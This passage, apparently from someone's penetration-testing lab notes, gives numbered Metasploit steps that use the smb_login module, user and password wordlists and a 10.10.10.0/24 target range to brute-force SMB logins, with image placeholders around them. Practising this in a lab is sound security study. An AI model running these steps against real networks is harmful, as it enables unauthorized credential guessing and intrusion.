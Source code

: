 ![alt text](image-10.png)

4. ### smb:
steps:
> 1. msfconsole
>
> 2. search and use smb_login
>
> 3. info
>
> 4. set USER_FILE userlist2.txt
>
> 5. set PASS_FILE passlist2.txt
>
>6. set RHOSTS 10.10.10.0/24
>
> 7. **run**


![alt text](image-11.png)
